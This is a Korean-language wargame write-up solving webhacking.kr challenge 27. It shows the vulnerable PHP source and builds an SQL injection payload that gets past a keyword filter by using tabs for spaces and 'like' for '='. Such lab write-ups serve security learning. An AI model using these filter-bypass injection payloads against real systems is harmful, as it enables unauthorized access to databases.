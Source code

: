 ```yaml
---
title: "[webhacking.kr] 27번 문제 풀이[SQL Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "27번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 27번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면
  ![image](https://user-images.githubusercontent.com/33647663/151708539-f682bb27-54cb-492b-9bc2-0c3cfb83f886.png)

## 문제 소스 코드
  ```php
  <?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
  ```

  
## 문제 풀이
  **필터링 되는 문자들**

  | 1 | 2 | 3 | 4 | 5 | 6 | 7 |
  |:---:|:---:|:---:|:---:|:---:|:---:|:---:|
  | **#** | **select** | **(** | **%20** | **limit** | **=** | **0x** |


  **sql**
  ```sql
  select id from chall27 where id='guest' and no = ({});
  ```

  해당 문제를 풀기 위한 1차 injection 문을 작성하면 다음과 같다
  ```md
  4) or no = 2--  
  ```
  ```sql
  select id from chall27 where id='guest' and no = ( 4) or no = 2 -- ) 
  ```

  해당 injection문에서 필터링을 우회하기 위해서 다음과 같이 바꿔준다.
  1. %20 -> %09
  2. = -> like
  
  ```md
  4)%09or%09no%09like%092--%09
  ```

  클리어 

  ![image](https://user-images.githubusercontent.com/33647663/151709496-68871636-9f18-488f-bde6-f9f993b2e356.png)

  


